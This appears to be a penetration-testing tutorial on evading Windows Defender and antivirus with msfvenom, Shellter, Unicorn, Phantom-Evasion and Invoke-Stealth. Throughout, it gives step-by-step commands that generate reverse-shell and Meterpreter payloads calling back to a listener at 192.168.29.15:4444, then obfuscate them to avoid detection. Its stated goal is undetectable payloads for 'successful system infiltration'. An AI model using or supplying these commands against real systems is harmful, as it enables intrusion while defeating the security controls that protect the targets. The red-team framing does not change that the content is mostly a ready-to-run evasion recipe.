 

## Bypassing Windows Defender with hoaxshell and AMSI trigger

HoaxShell and AMSI bypass techniques are commonly employed by malicious individuals as part of their offensive security tactics. HoaxShell serves as a robust framework specifically designed to circumvent multiple security controls, notably including the Antimalware Scan Interface (AMSI) trigger. By utilizing HoaxShell, attackers aim to evade detection by antivirus software and other protective measures. On the other hand, AMSI, developed by Microsoft, acts as an interface for antivirus and other security solutions to scan and identify malicious
code present within active processes. It is an essential component that enables the detection of potentially harmful activities.


## Harnessing Metasploit templates and custom binaries for antivirus evasion

Metasploit is a powerful penetration testing framework which provides various templates and techniques for effective Antivirus (AV) evasion. These templates offer options like code obfuscation, polymorphism, and packing to create custom payloads that are less likely to be flagged by AV software. By leveraging the versatile capabilities of Metasploit, practitioners can significantly improve their chances of successfully evading AV defenses. This allows pen testers for more
comprehensive security assessments and testing.

## Baseline

Baseline payload To establish a baseline, we will generate the standard msfvenon reverse shell payload for a 32-bit Windows system using the command msfvenom -p windows/shell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -f exe >
basepayload.exe.

Metasploit’s vast collection of exploits, payloads, and evasion techniques enables successful system compromise by evading AV detection. Utilizing advanced evasion techniques reduces detection rates,
enhancing the effectiveness of security assessments.

## Shellter

Shellter is an advanced and dynamic shellcode injection tool which is widely utilized in red teaming engagements and security assessments carried out by penetration testers and ethical hackers. Its main objective is to evade AV software and IDS. Shellter achieves this by employing dynamic encryption or encoding techniques for payloads.
Using the technique known as process hollowing, Shellter injects malicious shellcode into the memory space of legitimate processes. Moreover, researchers can leverage this tool to evaluate the effectiveness of security controls and identify
potential vulnerabilities in an organization’s defense mechanisms.
Shellter’s unique and powerful feature is dynamic binary instrumentation and injection, allowing seamless payload injection into Windows executables, evading antivirus and intrusion detection systems
effectively.

## Unicorn

The utilization of Magic Unicorn is a straightforward tool which involves
executing a PowerShell downgrade attack and directly injecting shellcode into the system’s memory. The usage process is uncomplicated: by launching Magic Unicorn (ensuring the presence of Metasploit in the correct path if opting for Metasploit methods), the tool automatically generates a PowerShell command. All that is required is to copy and paste this generated code into a command line
window or a payload delivery system for seamless execution.
1. Clone Unicorn by running the command git clone github.com/trustedsec/unicorn

2.Next, navigate to the new Unicorn directory using the command cd
unicorn. To view the available Unicorn options and comprehensive
descriptions of each attack, use the command ./unicorn.py --help
3.To create a payload with Unicorn, use the following command:
./unicorn.py windows/meterpreter/reverse_tcp <Listener IP>
<Listener Port>

Unicorn excels in generating undetectable payload executables through powerful encoding and obfuscation techniques, enabling seamless exploitation of target systems while evading antivirus and
security solutions.

## Phantom-Evasion

Phantom-Evasion is a python-based tool designed for antivirus evasion purposes. It has the capability to generate executable files that are highly difficult to detect, even when using the widely used x86 msfvenom payload.

1. Begin by downloading the tool using the command git clone https://github.com/oddcod3/Phantom-Evasion.git
2. Navigate to the Phantom-Evasion folder by executing the command cd /phantom-evasion. Grant executable permissions and set up the required dependencies by running the commands chmod +x ./phantom-evasion.py and ./phantom-evasion.py --setup
3.Generate the payload using the following command: python3 phantomevasion.py -m WSI -msfp windows/meterpreter/reverse_tcp -H 192.168.29.15 -P 4444 -i Thread -e 4 -mem Virtual_RWX -j 1 -J 15 -
jr 0 -E 5 -f exe -o PhEv.exe
Phantom Evasion’s exceptional polymorphic engine and payload
generation capabilities empower penetration testers to create undetectable payloads, bypassing antivirus software and security controls for successful system infiltration.

## Invoke-Stealth

This tool helps you to automate the obfuscation process of any script written in PowerShell with different techniques. You can use any of them separately, together or all of them sequentially with ease, from Windows or Linux.

1. Begin by downloading Invoke-Stealth. Execute the command git clone
https://github.com/JoelGMSec/Invoke-Stealth.git to download the tool.


2. Navigate to the Invoke-Stealth folder using the command cd InvokeStealth. Run the command pwsh Invoke-Stealth.ps1 --help to explore the available obfuscation techniques and other utilities.
3.Use the following command: msfvenom -p windows/powershell_reverse_tcp
LHOST=192.168.29.15 LPORT=4444 -e x86/shikata_ga_nai -f psh -o
payloadummed.ps1.
4. Execute the following command pwsh Invoke-Stealth.ps1
/home/ummedmeel/Desktop/payloadummedm.ps1 -technique All.

Invoke-Stealth generates stealthy PowerShell scripts using
obfuscation and encryption to evade antivirus detection and execute covert operations.


